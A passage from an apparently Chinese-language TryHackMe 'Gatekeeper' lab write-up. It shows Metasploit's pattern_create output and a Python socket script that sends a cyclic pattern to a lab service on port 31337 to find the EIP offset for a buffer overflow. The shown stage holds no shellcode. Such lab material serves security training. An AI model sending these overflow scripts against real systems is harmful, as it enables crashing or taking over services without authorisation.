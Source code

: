 
> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400


```
┌──(root💀kali)-[~/tryhackme/Gatekeeper/bof]
└─# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

使用下面脚本```exploit1.py```进行攻击，把上面生成的串放到payload：
```
#coding=utf-8
#!/usr/bin/python

#这里主要是为了定位EIP的内存地址
import socket

ip = "192.168.3.49"
port = 31337

prefix = "OVERFLOW1 "
offset = 0 
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```


EIP地址：65413565
